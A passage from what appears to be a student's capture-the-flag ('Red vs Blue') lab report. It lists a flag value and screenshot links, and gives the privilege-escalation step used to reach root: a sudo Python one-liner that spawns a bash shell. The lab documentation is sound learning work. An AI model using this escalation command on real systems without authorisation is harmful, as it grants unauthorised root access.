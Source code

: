 ![flag 2](https://github.com/thejohnkelly/FinalProjectReport/blob/main/screen_grabs/Red%20vs%20Blue/flag2_cmd.png)
![flag 3 command](https://github.com/thejohnkelly/FinalProjectReport/blob/main/screen_grabs/Red%20vs%20Blue/flag3_cmd.png)
![flag 3](https://github.com/thejohnkelly/FinalProjectReport/blob/main/screen_grabs/Red%20vs%20Blue/flag3.png)

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Sudo privleges to run Python allowed root access through Python shell exploit
        ```bash
        $ sudo python -c 'import pty; pty.spawn("/bin/bash")'
        ```

![flag 4](https://github.com/thejohnkelly/FinalProjectReport/blob/main/screen_grabs/Red%20vs%20Blue/flag4_file.png)
